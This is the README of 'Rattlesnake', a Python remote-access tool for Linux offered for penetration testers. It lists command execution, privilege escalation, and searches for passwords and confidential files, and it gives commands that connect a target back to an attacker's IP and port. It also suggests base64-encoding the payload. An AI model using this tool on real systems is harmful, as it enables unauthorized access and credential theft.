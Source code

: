 # Rattlesnake  
A linux remote administration tool created in Python, made for **educational** purposes only.  
 
## Features:  

### Command execution  
![RCE Demo](https://github.com/Cinnamon1212/rattlesnake/blob/main/image/RCEDemo.png)  

### Priv esc  
![PrivEsc Demo](https://github.com/Cinnamon1212/rattlesnake/blob/main/image/PrivEsc.png)  

Enumeration:  
* Gather system info  
* Gather permission info  
* Gather network info  
* Search for condifential or vulnerable files  
* Search for usernames and passwords  

File upload
File download

### Requirements:
* python3
``` sudo apt install python3 ```
* Linux distro (On both attacker and target, see note)
* termcolor (For controller)
``` pip3 install termcolor ```

### Usage:  
Attack machine:  
```
python3 controller.py
> Option 1
> Enter listener port
```
Target machine:
```
python3 rattlesnake.py (attack ip) (attack port)
```
Alternatively, you can hard code the IP and port (See rattlesnake.py) and base64 encode it (See calc.py and [b64encode.py](https://github.com/Cinnamon1212/rattlesnake/blob/main/examples/b64encode.py))  

## DISCLAIMER: THIS TOOL WAS CREATED FOR PENETRATION TESTERS, MALWARE ANALYSISTS AND CYBER SEC PROFESSIONALS. THIS TOOL IS ***NOT*** DESIGNED FOR MALICIOUS PURPOSES.  
### The creator is ***not*** responsible for any misuses  
Note: This tool has only been tested on Debian and Ubuntu(20.04 LTS) 
